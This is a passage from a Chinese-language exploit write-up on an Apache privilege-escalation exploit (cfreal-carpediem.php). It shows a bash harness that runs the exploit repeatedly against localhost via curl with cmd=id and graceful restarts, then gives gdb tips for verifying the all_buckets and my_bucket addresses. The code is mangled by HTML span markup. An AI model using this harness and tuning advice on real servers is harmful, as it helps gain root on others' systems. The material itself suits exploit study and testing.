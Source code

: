 ```
/etc/init.d/apache2 start

<span class=“k”>if</span> <span class=“o”>[</span> -f <span class=“s2”>"/tmp/1982347"</span> <span class=“o”>]</span><span class=“p”>;</span><span class=“k”>then</span>

rm /tmp/1982347

<span class=“k”>fi</span>

curl <span class=“s2”>“[http://localhost/cfreal-carpediem.php?cmd=id&gt;/tmp/1982347](http://localhost/cfreal-carpediem.php?cmd=id&gt;/tmp/1982347)”</span>

apache2ctl graceful

sleep <span class=“m”>1</span>

<span class=“k”>if</span> <span class=“o”>[</span> -f <span class=“s2”>"/tmp/1982347"</span> <span class=“o”>]</span><span class=“p”>;</span><span class=“k”>then</span>

<span class=“nb”>let</span> <span class=“nv”>SUCC</span><span class=“o”>+=</span><span class=“m”>1</span>

<span class=“k”>fi</span>

<span class=“k”>done</span> `<span class=“nb”>echo</span> <span class=“s2”>“COUNT: </span><span class=“nv”>$COUNT</span><span class=“s2”>”</span>

<span class=“nb”>echo</span> <span class=“s2”>“SUCCESS: </span><span class=“nv”>$SUCC</span><span class=“s2”>”</span>` 
```

### 总结

其他版本的还没有进行测试，但是在这里给一些建议。

1.  check all_buckets地址

    这个挺简单的，执行完exp以后，有输出对应的pid和all_buckets地址，可以使用gdb attach上去检查下该地址是否正确：`p all_buckets`

    PS：这里要注意下，需要安装dbg包，才有all_buckets符号 ：`apt install apache2-dbg=2.4.29-1ubuntu4`

    如果有问题，就调试检查exp中搜索all_buckets地址的流程

    如果没问题，就使用gdb attach主进程(root权限的那个进程)，然后断点下在`make_child`，然后执行`apache2ctl graceful`，执行完然后在gdb的流程跳到make_child函数的时候，再输出一次：`p all_buckets`，和exp获取的值对比一下，如果一样就没问题了

2.  check my_bucket地址

    前面的流程和上面一样，重点关注在make_child函数中的my_bucket赋值的代码：[3](https://github.com/apache/httpd/blob/23167945c17d5764820fdefdcab69295745a15a1/server/mpm/prefork/prefork.c#L691)

    这里注意下，因为上面有一个fork，所以在gdb里还要加一句：`set follow-fork-mode child`

    `my_bucket`的值是一个指针，指向堆喷的地址，如果`my_bucket`的值没问题，exp基本就没问题了，如果不对，就调整`$bucket_index`
